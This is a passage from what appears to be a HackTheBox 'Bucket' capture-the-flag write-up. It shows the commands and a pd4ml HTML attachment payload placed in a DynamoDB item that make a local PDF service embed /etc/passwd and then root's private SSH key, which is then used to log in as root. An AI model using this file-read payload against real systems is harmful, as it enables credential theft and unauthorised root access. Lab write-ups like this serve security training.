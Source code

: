 Uploading the JSON file into the table:
```
aws --endpoint-url http://s3.bucket.htb dynamodb put-item --table-name alerts --item file://ransomware.json
```

Requesting the parameter _action=get_alerts_ with `curl`:
```
curl -X POST -d "action=get_alerts" http://127.0.0.1:8000 -v
```

The created PDF file _result.pdf_ can be found in the _/files_ directory and it contains an attachment to _/etc/passwd_ of the box, so it is possible to read any file on the box.

Changing the payload to read _/root/.ssh/id_rsa_ and doing the procedure again:
```
(...)
  "S":"<html><pd4ml:attachment src='file:///root/.ssh/id_rsa' description:'attachment sample' icon='Paperclip'/>"
```

After putting the JSON file into the table and sending the POST request, the PDF file has the contents of the private SSH key of root that can be used to SSH into the box:
```
ssh -i bucket_root.key 10.10.10.212
```
